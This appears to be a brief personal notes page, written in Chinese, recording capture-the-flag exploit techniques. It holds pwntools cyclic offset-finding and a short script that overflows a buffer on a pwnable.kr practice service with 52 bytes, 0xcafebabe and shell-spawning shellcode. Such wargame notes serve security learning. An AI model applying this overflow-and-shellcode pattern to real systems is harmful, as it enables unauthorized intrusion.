 ### Record some expolit of  payload.
因常常忘記...於是紀錄一下各種解題方法。

試bof字串：

```
>>> cyclic(52)

'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa'

>>> hex(0x21DD09EC - 0x10101010)

'0x11ccf9dc'

echo $((0x48-0x14))

52```

#### pwntools起手式

```
from pwn import *

# 0xcafebabe

r = remote('pwnable.kr', '9000')

shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52

payload += buf

payload += shell

r.sendline(payload)

r.interactive()
```
